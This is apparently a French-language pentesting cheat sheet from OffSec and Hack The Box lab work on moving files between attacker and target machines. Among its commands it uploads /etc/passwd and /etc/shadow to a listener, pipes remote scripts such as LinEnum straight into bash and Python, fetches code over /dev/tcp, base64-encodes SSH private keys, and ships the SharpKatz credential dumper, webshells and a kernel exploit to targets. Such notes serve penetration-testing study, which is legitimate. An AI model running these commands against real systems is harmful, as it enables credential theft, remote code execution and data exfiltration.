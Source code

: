 # Compression
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#compression
tar -zcvf firefox.tar.gz firefox
#décompression
tar -xf firefox.tar.gz
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# SMB
Créer un serveur
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
impacket-smbserver -smb2support -username abc -password 123 TMP /home/corsaire/offsec/pen200/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Ajouter un partage
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
sudo mount -t cifs -o username=plaintext,password=Password123,domain=. //192.168.220.129/Finance /mnt/Finance
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

# FTP
Créer un serveur

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21 --write
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# HTTP
Créer un serveur
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#Téléchargement seulement
python3 -m http.server 80
#Avec téléversement
python3 -m uploadserver 80
#2.7
python2.7 -m SimpleHTTPServer
#php
php -S 0.0.0.0:8000
#ruby
ruby -run -ehttpd . -p8000
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Avec Apache
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
sudo systemctl start apache2
sudo cp <fichier_a_copier> /var/www/html/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
busybox
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
busybox httpd -f -p 8080
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Avec certificat
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
sudo python3 -m pip install --user uploadserver
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
mkdir https && cd https
sudo python3 -m uploadserver 443 --server-certificate /root/server.pem
#téléchargement
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Infiltration
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
wget http://192.168.45.196/unix-privesc-check
#pour exécuter
chmod +x unix-privesc-check
#fileless
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

# BASH >=2.04(HTTP)
compilé avec --enable-net-redirections

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#connexion
Corsaire@htb[/htb]$ exec 3<>/dev/tcp/10.10.10.32/80
#GET
Corsaire@htb[/htb]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
#Lecture
Corsaire@htb[/htb]$ cat <&3
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

# SCP/SSH
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
sudo systemctl start ssh
#vérifier
netstat -lnpt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
scp cve-2017-16995.c joe@192.168.123.216:
#Attention le chemin est toujours à la racine.
scp -P 2222 -r -i web01/anita_id_ecdsa anita@192.168.193.246:/var/www demo
scp -P 2222 -r -i web01/anita_id_ecdsa /usr/share/webshells/php/ anita@192.168.193.246:/home/anita
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# Base64
Attraper avec NC
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
nc -lvnp 8000
echo <base64> | base64 -d -w 0 > hosts
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#encoder
base64 shell -w 0
cat id_rsa |base64 -w 0;echo
#décoder
echo -n 'LS0...o=' | base64 -d > shell
#vérifier
md5sum shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
# Netcat
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#écoute
nc -l -p 8000 > SharpKatz.exe
#Si on envoi depuis netcat, ferme automatiquement à la fin de l'envoi
nc -l -p 8000 --recv-only > SharpKatz.exe
#envoi
nc --send-only 192.168.49.128 8000 < SharpKatz.exe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Si on préfère attendre une connexion
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#Attendre une connexion et envoyer fichier
sudo nc -l -p 443 --send-only < SharpKatz.exe
#réception
nc 192.168.49.128 443 --recv-only > SharpKatz.exe
#récetion en bash
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# Webdav (SMB/HTTP)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
sudo pip install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# Living off the land
https://gtfobins.github.io/
utiliser +file download ou +file upload dans la recherche

# Encryption

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
openssl enc -aes256 -iter 100000 -pbkdf2 -in /etc/passwd -out passwd.enc
#decrypte
openssl enc -d -aes256 -iter 100000 -pbkdf2 -in passwd.enc -out passwd
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


